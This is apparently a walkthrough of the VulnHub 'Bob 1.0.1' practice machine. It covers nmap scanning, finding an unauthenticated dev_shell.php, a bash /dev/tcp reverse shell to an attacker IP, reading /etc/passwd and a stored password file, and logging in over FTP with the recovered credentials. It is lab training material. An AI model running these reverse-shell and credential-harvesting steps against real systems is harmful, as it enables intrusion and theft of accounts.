::::::::::::::::::::::::: page
# Bob : 1.0.1 {#bob-1.0.1 .title}

\

## 

## Bob : 1.0.1

- **[Bob : 1.0.1]{style="color:#77767b;"}** :-

<!-- -->

- Download the machine : <https://www.vulnhub.com/entry/bob-101,226/>



- Open ova file .
- Then click finish .
- Start the machine .

1.  [Network Scanning]{style="color:#3f4043;"} :

- Find the machine IP :

::: codebox
    nmap -sn 192.168.31.0/24
:::



- Find available port in the machine :

::: codebox
    nmap -v -p- 192.168.31.228
:::



::: codebox
    nmap -sC -sV -A 192.168.31.228
:::



- IP visit in browser : <http://192.168.31.228/>

<!-- -->

- This command runs an aggressive scan and uses the http-enum script to
  identify potential CGI directories .

::: codebox
    nmap -v -p 80 -sT -sV -A --script=http-enum.nse 192.168.31.228
:::



1.  [Web Enumeration]{style="color:#986a44;"} :

- Found URLs : <http://192.168.31.228/robots.txt>



<http://192.168.31.228/login.html>



::: codebox
    http://192.168.31.228/passwords.html
:::

::: codebox
    http://192.168.31.228/dev_shell.php
:::

::: codebox
    http://192.168.31.228/lat_memo.html
:::

1.  [In robots.txt file already have /dev_shell.php
    file]{style="color:#3f4043;"} :

::: codebox
    /dev_shell.php
:::



- Open this file in browser :

::: codebox
    http://192.168.31.228/dev_shell.php
:::



- Run the command if get the output then confirm get the reverse shell :

::: codebox
    id
:::



::: codebox
    ip a
:::



1.  [Get Reverse Shell]{style="color:#3f4043;"} :

- Start listener on attacker machine :

::: codebox
    nc -lvnp 4444
:::

- Now Run the command in dev_shell input box :

::: codebox
    bash -c 'bash -i >& /dev/tcp/192.168.31.206/4444 0>&1'
:::



- Then get the command ➝ shell is received.



1.  [After get the reverse shell, Now FTP Login]{style="color:#3f4043;"}
    :

- Show the /etc/passwd file :

::: codebox
    cat /etc/passwd
:::

 Find the 3 local user .

- In reverse shell run the command :

::: codebox
    ls -la /home/jc
:::

- 

::: codebox
    ls -la /home/seb
:::

- 

::: codebox
    ls -la /home/bob
:::

 Show the password file .

- Read the password file :

::: codebox
    cat /home/bob/.old_passwordfile.html
:::



- Find local user and password :

::: codebox
    jc  :  Qwerty
    seb  :  T1tanium_Pa$$word_Hack3rs_Fear_M3
:::

- 
- Now login the ftp :

::: codebox
    ftp 192.168.31.228
:::

 Now login the ftp with seb user .

 Now login the ftp with jc user .

- [Vulnerability Type]{style="color:#3f4043;"} :

<!-- -->

- Command Execution Vulnerability :

<!-- -->

- Vulnerable File :

::: codebox
    /dev_shell.php
:::

- Description :
- The file dev_shell.php contains a developer command shell that allows
  users to execute system commands directly from the web interface.
  Because there is no authentication or input validation, an attacker
  can execute arbitrary commands on the server.

<!-- -->

- [Impact]{style="color:#3f4043;"} :

<!-- -->

- An attacker can :

<!-- -->

- Execute system commands
- Gain a reverse shell
- Access sensitive files
- Escalate privileges
- Fully compromise the server

<!-- -->

- [Severity]{style="color:#3f4043;"} :
- Critical --- Remote Command Execution

<!-- -->

- [In Short Note]{style="color:#3f4043;"} :

::: codebox
    Vulnerability : Remote Command Execution
    File : /dev_shell.php
    Impact : Allows execution of arbitrary system commands without authentication.
    Result : Attacker can obtain reverse shell and compromise the system.
:::
:::::::::::::::::::::::::
